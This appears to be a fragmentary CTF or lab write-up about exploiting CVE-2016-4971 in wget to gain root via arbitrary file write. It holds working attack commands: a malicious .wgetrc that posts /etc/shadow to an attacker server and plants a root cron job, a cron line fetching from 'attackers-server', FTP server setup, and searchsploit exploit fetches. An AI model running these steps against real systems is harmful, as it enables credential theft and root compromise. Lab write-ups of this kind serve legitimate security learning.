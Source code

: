 root cronjob - By default cronjobs run within home directory of the cronjob owner. 

```bash
*/2 * * * * root wget -N http://attackers-server/database.db > /dev/null 2>&1
```


```txt
- upload .bash_profile file - write out .wgetrc file in the 
first response and then write to /etc/cron.d/malicious-cron in the second. 
```

1. Create a malicious .wgetrc
2. Start FTP server
```bash
attackers-server# mkdir /tmp/ftptest
attackers-server# cd /tmp/ftptest

attackers-server# cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
# Or another ftp method
# Legacy:
# attackers-server# sudo pip install pyftpdlib
attackers-server# sudo apt install python3-pyftpdlib
attackers-server# python3 -m pyftpdlib -p21 -w
```

- Python2 exploit..
```bash 
# for complete research and reading sake 
searchsploit -m linux/remote/49815.py
searchsploit -m linux/remote/40064.txt
# Made a 40064.py
```


TL;DR - For The FeynmanWin

As a server requested by a victim with the CVE-2016-4971 vulnerable version of wget, we can force the victim to arbituary file creation and write. It is not a RCE in the strictiest sense, but in the context of this machine we can:
1. Make victim download a malicious .wgetrc 
	- this allow us to define wget settings and therefore expanding the capability of subsequent uses of wget for our attack chain
1. On the second download create a malicious cron job, which wil be written and run as root

[40064](https://www.exploit-db.com/exploits/40064) and [49815](https://www.exploit-db.com/exploits/49815)
[wgetrc commands documentation](https://www.gnu.org/software/wget/manual/wget.html#Wgetrc-Commands)


I initial tried with the original exploit but it errored out on the server so I tried the other and both failed. My mistake was reading and fixation. Coming back I understood what I was doing wrong:

- Where are we sending the cron? = 10.0.3.133
![](checkingtomakesureIdosomethingbad.png)
